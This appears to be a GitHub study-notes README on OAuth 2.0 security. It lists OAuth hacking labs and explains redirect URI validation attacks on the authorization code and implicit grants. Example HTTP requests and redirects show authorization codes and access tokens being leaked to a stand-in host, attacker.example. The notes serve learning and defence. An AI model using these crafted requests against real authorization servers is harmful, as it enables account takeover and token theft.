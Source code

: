 <p><a target="_blank" href="https://app.eraser.io/workspace/CKZ9W8XGguuGzUUoB4Eg" id="edit-in-eraser-github-link"><img alt="Edit in Eraser" src="https://firebasestorage.googleapis.com/v0/b/second-petal-295822.appspot.com/o/images%2Fgithub%2FOpen%20in%20Eraser.svg?alt=media&amp;token=968381c8-a7e7-472a-8ed6-4a6626da5501"></a></p>

| # | Lab Name | Level | Repeat | Link |
| ----- | ----- | ----- | ----- | ----- |
| 1 | [Authentication bypass via OAuth implicit flow](Authentication%20bypass%20via%20OAuth implicit%20flow) | APPRENTICE |  |  |
| 2 | Forced OAuth profile linking | PRACTITIONER |  |  |
| 3 | OAuth account hijacking via redirect_uri | PRACTITIONER |  |  |
| 4 | Stealing OAuth access tokens via an open redirect | PRACTITIONER |  |  |
| 5 | SSRF via OpenID dynamic client registration | PRACTITIONER |  |  |
| 6 | Stealing OAuth access tokens via a proxy page | EXPERT |  |  |


## What is OAuth ?
- OAuth is an **Authorization Framework **that enables websites and web applications to request **limited access to a user's account** on another application.
- Typically, OAuth allows the user to grant access without exposing the user's login credentials to the requesting application. 
## How does OAuth work ?


![OAuth Flow](/.eraser/CKZ9W8XGguuGzUUoB4Eg___DtAnWtIswaZrA5O4Cy5IZCcAYN53___---figure---9jOtUIZ3ZBk6drFSue2zW---figure---HUpMv6AOvzOBZSBZA5dttQ.png "OAuth Flow")





## Attacks and Mitigations
### 1. Insufficient Redirect URI validation
Some authorization servers allow clients to register redirect URI patterns instead of complete redirect URIs. 



#### 1.1 Redirect URI validation attacks on Authorization Code Grant
##### Assumptions
- Client registers with an redirect URL pattern `**https://*.somesite.example**`  with client ID `**s6BhdRkqt3**`. This would allow any subdomain of `**somesite.example**` to be a valid redirect URI for the client. 
> **NOTE: **A naive implementation of the authorization server, might interpret the wildcard ***** as "**any character**" and not "**any character valid for a domain name**". For example, the authorization server, might permit [﻿`https://attacker.example/.somesite.example`](https://attacker.example/)  as a valid redirect URI, although `attacker.example` is a different domain.

##### Attack Scenario
- Attacker tricks the user into opening a tampered URL
- Browser tries to render the attacker controlled malicious web page `https://www.evil.example` 
- The malicious web page initiates an authorization request with a valid client ID `s6BhdRkqt3` 
- Example Request:
```
﻿GET /authorize?response_type=code&client_id=s6BhdRkqt3&state=9ad67f13¶
     &redirect_uri=https%3A%2F%2Fattacker.example%2F.somesite.example
     HTTP/1.1
Host: server.somesite.example
```
- Authorization server validates the redirect URI which matches the wild card pattern registered for the client. 
- If the user doesn't notice the malicious redirect URI and grants the consent, the authorization code is issued and sent to attackers domain. **If an automatic approval of authorization is enabled, the attack can be performed even without user interaction. **
- If the attacker impersonates a public client, the attacker can exchange the code for tokens at the respective token endpoint. 
**NOTE: **The attack will not work as easily for confidential clients, since the code exchange requires authentication with the legitimate client's secret. The attacker cam, however use the legitimate confidential client to redeem the code by performing an authorization code injection attack. 

![Redirect URL validation attacks on Authorization Code Grant](/.eraser/CKZ9W8XGguuGzUUoB4Eg___DtAnWtIswaZrA5O4Cy5IZCcAYN53___---figure---Rj-3jXBbBSBqjG-f_MTD9---figure---FgAhew-fJTqiU74zj4Ew0w.png "Redirect URL validation attacks on Authorization Code Grant")



#### 1.2 Redirect URI validation attacks on Implicit Grant
##### Assumptions
- The registered URL pattern for client `**s6BhdRkqt3**`  is `**https://client.somesite.example/cb?***` , allowing any parameter for redirects to `**https://client.somesite.example/cb**`.
- The client endpoint supports a parameter `**redirect_to**` , which redirects the browser using an HTTP 303 Location header redirect.
##### Attack Scenario
- Attacker tricks the user into opening a malicious web URL `**https://www.evil.example**`.
- The malicious website initiates an authorization request with a valid client ID `**s6BhdRkqt3**`  and adds an open redirector by encoding `**redirect_to=https://attacker.example**`  into the redirect URI parameters with response type "token".
```
GET /authorize?response_type=token&state=9ad67f13
    &client_id=s6BhdRkqt3
    &redirect_uri=https%3A%2F%2Fclient.somesite.example
     %2Fcb%26redirect_to%253Dhttps%253A%252F
     %252Fattacker.example%252F HTTP/1.1
Host: server.somesite.example
```
- Since the URL matches the registered pattern, the authorization server permits the request and sends the resulting access token in a 303 redirect.
```
HTTP/1.1 303 See Other
Location: https://client.somesite.example/cb?
          redirect_to%3Dhttps%3A%2F%2Fattacker.example%2Fcb
          #access_token=2YotnFZFEjr1zCsicMWpAA&...
```
- At `**client.somesite.example**` , the request arrives at the open redirector. The endpoint reads the redirect parameter and issues another HTTP 303 Location header redirect to the URL `**https://attacker.example/**` .
```
HTTP/1.1 303 See Other
Location: https://attacker.example/
```
- However, browsers, as specified by **RFC 7231**, reattach the original fragment to the new URL if the `Location`  header in the redirect response doesn't contain a fragment. Consequently, the browser navigates to `**https://attacker.example/#access_token=2YotnFZFEjr1zCsicMWpAA...**` 
![Redirect URI validation attacks on Implicit Grant](/.eraser/CKZ9W8XGguuGzUUoB4Eg___DtAnWtIswaZrA5O4Cy5IZCcAYN53___---figure---TsmWbck1meTKhyB94VYIz---figure---tIK4SB6f2KMaUY__kz6pQQ.png "Redirect URI validation attacks on Implicit Grant")




<!-- eraser-additional-content -->
## Diagrams
<!-- eraser-additional-files -->
<a href="/Advanced-Topics/OAuth 2.0/README-OAuth 2.0 Authorization Flow-1.eraserdiagram" data-element-id="8spaGmKymnXBIp7pFVeHf"><img src="/.eraser/CKZ9W8XGguuGzUUoB4Eg___DtAnWtIswaZrA5O4Cy5IZCcAYN53___---diagram----6decbe98b2efc74356ac00b0c8e2db37-OAuth-2-0-Authorization-Flow.png" alt="" data-element-id="8spaGmKymnXBIp7pFVeHf" /></a>
<a href="/Advanced-Topics/OAuth 2.0/README-Redirect URI Validation Attacks on Authorization Code Grant-2.eraserdiagram" data-element-id="X4NOtxxpODPp1FIwSU0NR"><img src="/.eraser/CKZ9W8XGguuGzUUoB4Eg___DtAnWtIswaZrA5O4Cy5IZCcAYN53___---diagram----a38f06b940367c0d66a8ab12d9524f36-Redirect-URI-Validation-Attacks-on-Authorization-Code-Grant.png" alt="" data-element-id="X4NOtxxpODPp1FIwSU0NR" /></a>
<a href="/Advanced-Topics/OAuth 2.0/README-Redirect URI validation attacks on Implicit Grant-3.eraserdiagram" data-element-id="4SrtJxHzhLrS5LGw5RUGV"><img src="/.eraser/CKZ9W8XGguuGzUUoB4Eg___DtAnWtIswaZrA5O4Cy5IZCcAYN53___---diagram----f8101b9db25bbaa1e1a8fe535aa54feb-Redirect-URI-validation-attacks-on-Implicit-Grant.png" alt="" data-element-id="4SrtJxHzhLrS5LGw5RUGV" /></a>
<!-- end-eraser-additional-files -->
<!-- end-eraser-additional-content -->
<!--- Eraser file: https://app.eraser.io/workspace/CKZ9W8XGguuGzUUoB4Eg --->